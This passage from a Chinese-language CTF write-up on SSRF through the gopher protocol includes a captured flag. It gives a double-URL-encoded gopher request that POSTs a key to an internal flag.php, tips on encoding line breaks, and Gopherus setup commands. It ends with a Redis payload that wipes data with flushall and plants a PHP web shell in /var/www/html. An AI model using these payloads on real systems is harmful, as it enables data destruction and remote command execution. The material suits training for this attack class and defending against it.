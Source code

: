 编码后：

```
ctfhub{b8ad2bd7fc8ad00d6c1f2ea9}
gopher://127.0.0.1:80/_POST%2520/flag.php%2520HTTP/1.1%250d%250AHost:%2520127.0.0.1:80%250d%250AContent-Type:%2520application/x-www-form-urlencoded%250d%250AContent-Length:%252036%250d%250A%250d%250Akey=8692f90d364c01d6630353c023d1b3c8%250d%250a
```

**注意：**不要使用burp编码转换器

- 1.问号(?)需要转码为URL编码，也就是%3f
- 2.回车换行要变为%0d%0a,但如果直接用工具转，可能只有%0a
- 3.在HTTP包的最后要加%0d%0a，代表消息结束
- 4._POST 后面有空格

5.将编码后的结果拼接到URL中，成功拿到FLAG

![1717557668281](https://gitee.com/zh0y0/picture/raw/master/zh0y0/1717557668281.jpg)

##### 4.5 gopher案例介绍1-攻击内网redis

1.下载gopherus

```
git clone https://github.com/tarunkant/Gopherus.git
```

2.进入gopherus文件

```
cd Gopherus
```

3.安装程序

```
./install.sh
```



1.使用KALI下的gopherus工具自动生成攻击redis的payload

使用命令

```
gopherus --exploit redis
```

![1717558595631](https://gitee.com/zh0y0/picture/raw/master/zh0y0/1717558595631.jpg)

2.将Payload再次进行url编码，将回车的%0a 替换为%0d%0a

```
gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

